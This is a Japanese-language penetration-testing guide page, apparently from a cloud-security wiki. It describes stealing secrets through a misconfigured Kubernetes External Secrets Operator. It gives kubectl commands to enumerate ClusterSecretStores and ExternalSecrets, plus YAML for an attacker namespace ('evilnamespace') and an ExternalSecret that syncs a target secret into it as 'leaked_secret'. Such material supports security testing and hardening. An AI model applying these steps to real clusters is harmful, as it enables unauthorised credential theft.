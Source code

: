 # External Secret Operator

**このページの元の著者は** [**Fares**](https://www.linkedin.com/in/fares-siala/)

このページでは、ESOの設定ミスやESOを使用してシークレットを同期するアプリケーションからシークレットを盗む方法についてのポインタをいくつか示しています。

## 免責事項

以下に示すテクニックは、特定の状況が整った場合にのみ機能する可能性があります。たとえば、所有している/侵害された名前空間でシークレットを同期するために必要な要件に依存します。自分で解決する必要があります。

## 前提条件

1. 管理者権限を持つkubernetes / openshiftクラスター内での立ち入り口
2. 少なくともクラスターレベルのExternalSecretへの読み取りアクセス
3. ESOがシークレットを同期するために必要なラベル/注釈またはグループメンバーシップが必要かどうかを特定します。運が良ければ、定義されたシークレットを自由に盗むことができます。

### 既存のClusterSecretStoreに関する情報の収集

このリソースを読む権限を持つユーザーがいると仮定して、まず最初に既存の _**ClusterSecretStores**_ をリストアップします。
```sh
kubectl get ClusterSecretStore
```
### ExternalSecretの列挙

ClusterSecretStoreという名前の_mystore_が見つかったと仮定します。関連するexternalsecretを列挙してください。
```sh
kubectl get externalsecret -A | grep mystore
```
_このリソースはネームスペーススコープされているため、すでに検索するネームスペースを知っている場合を除いて、すべてのネームスペースを横断して検索するには-Aオプションを追加してください。_

外部シークレットが定義されたリストを取得する必要があります。外部シークレットオブジェクトが_mysecret_と呼ばれ、_mynamespace_ネームスペースで使用されていると仮定しましょう。それがどの種類のシークレットを保持しているかについてもう少し情報を収集してください。
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### ピースを組み立てる

ここから、1つまたは複数のシークレット名（Secret リソースで定義されたもの）の名前を取得できます。次のような出力が得られます：
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
```md
So far we got:

* クラスタシークレットストアの名前
* 外部シークレットの名前
* シークレットの名前

必要なすべての情報を取得したので、ExternalSecret を作成できます（そして最終的に新しいシークレットを同期させるために必要な前提条件を満たすために新しい名前空間をパッチ適用/作成することができます）：
```
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
数分後、同期条件が満たされた場合、名前空間内で漏洩したシークレットを表示できるはずです。
```sh
kubectl get secret leaked_secret -o yaml
```
## 参照

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
